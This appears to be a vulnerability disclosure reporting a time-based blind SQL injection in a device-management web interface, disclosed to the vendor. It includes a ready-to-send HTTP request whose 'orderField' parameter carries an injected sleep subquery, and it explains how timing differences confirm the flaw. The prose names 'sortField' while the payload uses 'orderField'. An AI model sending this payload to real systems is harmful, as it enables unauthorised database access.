 We noticed that the `sortField` parameter is controllable by the user. Based on this, we constructed the following Proof of Concept (POC):

```
POST http://ip:port/DeviceState.do?Action=Query HTTP/1.1
Host: ip:port
Content-Length: 162
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
Content-Type: application/x-www-form-urlencoded

EndTime=2024-08-20+00%3A00%3A00&PageIndex=0&PageSize=1&RepairState=-1&StartTime=2024-08-26+00%3A00%3A00&orderField=(select*from(select%0asleep(4))a)&orderType=asc
```

Due to network latency, we used **time difference** to verify the vulnerability. We first used `sleep(3)`, then `sleep(4)`, and finally `sleep(5)`, checking if the time difference between each test was around 1 second.


<img width="1925" height="885" alt="image" src="https://github.com/user-attachments/assets/f7cb57ce-e36c-4e11-90cb-80e2468e1961" />

<img width="1931" height="895" alt="image" src="https://github.com/user-attachments/assets/1e4fec64-6bc3-4362-bb6e-a730023ff9db" />

<img width="1939" height="895" alt="image" src="https://github.com/user-attachments/assets/bcd5b935-1a0d-4f85-996d-a539953fb0ae" />


It can be seen that the time difference between each test is around 1 second, which is sufficient to confirm that the `DeviceState.do?Action=Query` interface has an SQL injection vulnerability.

Thank you for your review! Wish you all the best!
